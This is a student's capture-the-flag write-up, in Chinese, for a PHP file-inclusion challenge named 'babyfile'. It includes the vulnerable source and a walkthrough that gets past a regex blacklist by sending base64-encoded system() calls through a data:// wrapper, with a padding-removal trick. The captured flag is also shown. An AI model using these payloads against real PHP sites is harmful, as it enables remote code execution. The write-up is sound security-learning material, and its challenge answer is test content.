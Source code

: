 ## babyfile
##### 罗承煜 523031910624

### 题目源代码
```
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\!|\~|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\=|\+|\./i", $file)){
        die("HACKER");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
?> 
```

### 代码分析
本题代码量较少，逻辑也较为简单，通过GET方式传入file的值，经过preg_match的过滤，并```include($file)```

```include``` 传入的文件参数变量支持：绝对路径、相对路径、协议
    include "config.php";
    include "./config.php";
    include "/var/www/html/config.php";
    include "file:///var/www/html/config.php

本地文件包含漏洞利用需要考虑的事情
▪ 包含的文件类型：文件内容中是否包含代码？
▪ 包含的文件路径：是否需要和代码中原有的路径进行拼接？
▪ 包含的文件权限：是否有权限读取?
读取本地敏感文件内容
▪文件中无脚本代码，那么文件内容可以直接显示在页面上

当然如果file的内容本身就是一段完整的php代码，也是可以执行的，如
```
    <?php system('ls'); ?>
    <?php system('cat flag'); ?>
```

### 思路分析
首先，我不知道任何关于这道题背后文件的关系，甚至不知道flag存在什么文件中，此时，如何实现```ls```至关重要
就像我说的，如果我能传入完整的php代码，include会帮我执行这段代码，所以我可以想办法传入```<?php system('ls'); ?>```
但如何绕过preg_match的过滤呢？显然用特殊符号的url编码是不行的，那不妨试一试base64编码？
把```<?php system('ls'); ?>```放入cyberchef中，得到base64编码为
```PD9waHAgc3lzdGVtKCdscycpOyA/Pg==```
url可以为?file=data://text/plain;base64,(base64编码放这里)
这样php语言会把传入的base64编码转换成php语言执行
还有一件事：'='会被preg_match过滤，有两种绕过方法：
    1、直接删掉，在base64转回php代码时，会自动补齐缺的=
    2、看似比较麻烦但感觉有点妙的方法：在```<?php system('ls'); ?>```的代码后加若干个#（注释符），让转base64时不需要=补齐
试一试：
![ls](image.png)
成功得到了flag所在的文件名：```f10g_b026324c6904b2a9cb4b88d6d61c81d1.php```

下一步，自然是把这个文件cat出来：
试试```<?php system('cat f10g_b026324c6904b2a9cb4b88d6d61c81d1.php'); ?>```
转base64 -> 去掉等号 -> 上传
但是屏幕上什么都没有，难道是cat被禁止了？试试tac：
![f10g](image-1.png)
得到flag :```MKCTF{Simple_1nclude_Vuln3r4b1l1ty}```
